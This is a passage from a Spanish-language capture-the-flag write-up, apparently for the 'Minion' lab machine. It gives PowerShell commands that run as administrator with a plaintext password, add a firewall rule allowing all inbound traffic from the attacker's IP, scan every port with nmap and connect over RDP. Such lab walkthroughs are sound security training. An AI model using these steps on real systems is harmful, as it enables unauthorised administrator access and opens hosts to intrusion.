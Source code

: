 ```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}

#Output
minion\administrator
```

Aqui vemos que podemos ejecutar comando como el usuario administrator. Vamos a por el cambio en el firewall

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock \
{New-NetFirewallRule -DisplayName setenso -RemoteAddress 10.10.14.8 -Direction inbound -Action Allow}

#Output
minion\administrator
```

Si ahora desde la maquina de atacante le hacemos un nmap para ver los puertos abiertos

```bash
nmap -sS --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.57
```

vemos que tenemos todo expuesto y como hay el puerto 3389 que es el puerto **RDP** ya nos podemos conectar con Remmina por ejemplo.

```{r, echo = FALSE, fig.cap="minion remmina connection", out.width="90%"}
knitr::include_graphics("images/minion-remina.png")
```

Y ya estamos en la maquina como administrator

```{r, echo = FALSE, fig.cap="minion remmina pwned", out.width="90%"}
knitr::include_graphics("images/minion-pwned.png")
```
